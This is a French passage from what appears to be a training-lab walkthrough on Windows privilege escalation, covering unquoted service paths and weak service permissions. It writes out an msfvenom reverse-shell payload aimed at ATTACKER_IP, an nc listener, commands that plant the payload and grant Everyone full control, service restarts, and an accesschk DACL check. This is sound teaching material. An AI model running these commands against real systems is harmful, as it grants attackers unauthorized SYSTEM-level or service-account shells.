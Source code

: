 Le groupe `BUILTIN\\Users` dispose des privilèges **AD** et **WD**, ce qui permet à l'utilisateur de créer des sous-répertoires et des fichiers, respectivement.

Le processus de création d'une charge utile exe-service avec `msfvenom` et son transfert vers l'hôte cible est **le même que précédemment**, alors n'hésitez pas à créer la charge utile suivante et à l'envoyer sur le serveur comme précédemment. Il faut également démarrer un listener pour recevoir le reverse shell lorsqu'il sera exécuté.

```cmd
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```

Une fois que la charge utile est dans le serveur, déplacez-la vers l'un des emplacements où le détournement pourrait se produire. Dans ce cas, nous déplacerons notre charge utile vers `C:\MyPrograms\Disk.exe`. Nous accorderons également à chacun toutes les permissions sur le fichier afin de nous assurer qu'il peut être exécuté par le service :

```command prompt
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Une fois le service redémarré, votre charge utile devrait s'exécuter :
    
```command prompt
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
``` 
En conséquence, vous obtiendrez un shell inversé avec les privilèges svcusr2.

### Permissions de service non sécurisées

Vous pouvez encore avoir une petite chance de profiter d'un service si le DACL exécutable du service est bien configuré, et si le chemin binaire du service est correctement cité. Si la DACL du service (et non la DACL de l'exécutable du service) vous permet de modifier la configuration d'un service, vous pourrez reconfigurer le service. Cela vous permettra de pointer vers n'importe quel exécutable dont vous avez besoin et de l'exécuter avec le compte de votre choix, y compris le compte SYSTEM lui-même.

Pour vérifier la présence d'une DACL de service à partir de la ligne de commande, vous pouvez utiliser Accesschk de la suite Sysinternals. Pour votre commodité, une copie est disponible dans `C:\\tools`. La commande pour vérifier la DACL du service thmservice est la suivante :

```command prompt
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
